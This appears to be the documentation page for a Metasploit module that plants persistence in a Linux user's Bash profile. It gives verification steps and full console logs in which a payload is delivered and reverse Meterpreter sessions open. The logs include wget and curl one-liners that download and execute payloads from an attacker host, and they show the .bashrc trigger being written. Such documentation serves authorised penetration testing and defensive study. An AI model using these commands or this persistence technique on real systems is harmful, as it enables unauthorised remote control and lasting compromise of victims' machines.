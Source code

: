 ## Vulnerable Application

This module writes an execution trigger to the target's Bash profile.
The execution trigger executes a call back payload whenever the target
user opens a Bash terminal.

Verified on Ubuntu 22.04 and 18.04 desktop with Gnome

## Verification Steps

1. Start `msfconsole`
2. Get a Meterpreter session
3. `use exploit/linux/local/bash_profile_persistence`
4. `set SESSION [SESSION]`
5. `run`
6. On victim, open a new Bash terminal
7. You should get a new session with the permissions of the exploited user account

## Options

### BASH_PROFILE

The path to the target Bash profile. Defaults to `.bashrc`

### PAYLOAD_NAME

Name of the payload file. Defaults to random

## Scenarios

### Ubuntu 18.04.3

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO O2XZweCh --no-check-certificate http://111.111.1.111:8181/l; chmod +x O2XZweCh; ./O2XZweCh& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.222    web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:44878) at 2025-02-06 21:11:39 -0500
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/bash_profile 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/bash_profile) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/bash_profile) > exploit
[*] Command to run on remote host: curl -so ./QfTygMjF http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./QfTygMjF;./QfTygMjF&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/bash_profile) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bash profile exists: /home/ubuntu/.bashrc
[+] Bash profile is writable: /home/ubuntu/.bashrc
[!] The service is running, but could not be validated. Bash profile exists and is writable: /home/ubuntu/.bashrc
[*] Created backup Bash profile: /root/.msf4/loot/20250206211215_default_222.222.2.222_desktop..bashrc_080965.txt
[*] Writing '/tmp/BfkldKp4' (100 bytes) ...
[*] Created Bash profile persistence
[+] Payload will be triggered when target opens a Bash terminal
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/ubuntu18desktop.local_20250206.1216/ubuntu18desktop.local_20250206.1216.rc
```
On the remote host open `/bin/bash`

```
[*] Client 222.222.2.222 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.222 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:40990) at 2025-02-06 21:12:21 -0500
[msf](Jobs:2 Agents:2) exploit(linux/persistence/bash_profile) > sessions -i 2
[*] Starting interaction with 2...
(Meterpreter 2)(/tmp) > sysinfo
Computer     : ubuntu18desktop.local
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/tmp) > 
```